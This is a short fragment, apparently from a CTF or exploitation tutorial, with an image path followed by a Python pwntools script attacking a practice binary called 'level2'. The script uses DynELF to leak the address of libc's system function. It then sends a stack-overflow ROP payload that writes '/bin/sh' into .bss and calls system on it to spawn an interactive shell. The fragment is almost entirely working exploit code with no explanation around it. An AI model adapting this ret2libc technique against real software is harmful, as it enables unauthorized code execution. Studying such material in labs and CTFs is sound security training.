 ```python

    p = process('./level2')

    d = DynELF(leak, elf=ELF('./level2'))

    system_addr = d.lookup('system', 'libc')
    log.info("system_addr=%#x",system_addr)

    bss_addr = 0x0804a020
    pppr = 0x080484f9

    payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)
    payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)

    print "\n###sending payload2 ...###"
    p.send(payload2)
    p.send("/bin/sh\0")
    p.interactive()
```
